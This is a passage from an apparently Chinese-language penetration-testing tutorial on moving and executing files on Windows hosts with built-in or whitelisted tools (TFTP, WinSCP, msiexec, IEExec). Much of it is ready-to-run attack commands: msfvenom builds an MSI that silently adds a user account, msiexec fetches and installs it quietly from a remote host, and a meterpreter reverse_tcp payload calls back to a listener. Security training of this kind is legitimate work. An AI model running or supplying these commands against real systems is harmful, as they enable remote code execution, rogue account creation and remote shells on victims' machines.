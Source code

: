 ![](http://img-upaiyun-own.test.upcdn.net/20200413-6.png)



**7、TFTP**

用来下载远程文件的最简单的网络协议，它基于UDP协议而实现

tftp32服务端下载地址：<http://tftpd32.jounin.net/tftpd32_download.html>

```powershell
tftp -i 你的IP get 要下载文件 存放位置
```

![](http://img-upaiyun-own.test.upcdn.net/20200413-7.png)

**8、WinScp**

WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端。

```powershell
#上传
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt 

#下载
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx
```

使用winscp.exe 作为命令行参数执行远程上传/下载操作。

![](http://img-upaiyun-own.test.upcdn.net/20200413-8.png)



**9、msiexec**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

~~~powershell
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
~~~

成功添加了一个test用户：

![](http://img-upaiyun-own.test.upcdn.net/20200413-9.png)



**10、IEExec**

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

~~~powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
~~~
